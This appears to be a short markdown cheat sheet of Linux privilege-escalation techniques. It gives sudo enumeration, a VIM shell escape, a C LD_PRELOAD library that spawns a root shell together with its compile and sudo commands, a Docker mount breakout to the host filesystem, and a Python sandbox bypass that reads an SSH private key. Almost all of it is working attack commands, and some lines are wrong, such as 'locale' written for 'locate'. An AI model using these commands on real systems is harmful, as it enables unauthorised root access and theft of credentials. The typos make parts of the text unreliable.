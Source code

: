 ### User and permission
-  List cmd that current user can execute as root without password
    ```bash
    sudo -l -S
    ```
- Get shell in VIM: `:!/bin/bash`

### File and directory
- Locate file fast: 
    ```bash
    locale filename
    ````
- Find file cooresponding to a user/group
    ```bash
    find / -group www-data 2>/dev/null
    ````
- Find file that is writable for current user
    ```bash
    find -type f -maxdepth 1 -writable 2>/dev/null
    ````

### Linux Privilege Escalation
- #### Resources:
    - https://book.hacktricks.xyz/linux-hardening/privilege-escalation
- #### LD_PRELOAD
    - Code injection with LD_PRELOAD, LD_PRELOAD is a shared library that will loaded before libc.
        ```c
        #include <stdio.h>
        #include <sys/types.h>
        #include <stdlib.h>
        // Get root shell
        void _init() {
            unsetenv("LD_PRELOAD");
            setgid(0);
            setuid(0);
            system("/bin/bash");
        }
        ```
        ```bash
        gcc -fPIC -shared -o /tmp/pe.so pe.c -nostartfiles # Complie
        sudo LD_PRELOAD=/tmp/pe.so <COMMAND>
        ```
### With Docker
- ###
    ```bash
    docker run -v /:/mnt --rm -it alpine chroot /mnt sh
    ```

### Bypass python sandbox
- ###
    ```python
    input() # execute code __import__('os').system('cat /home/developer/.ssh/id_rsa')
    ```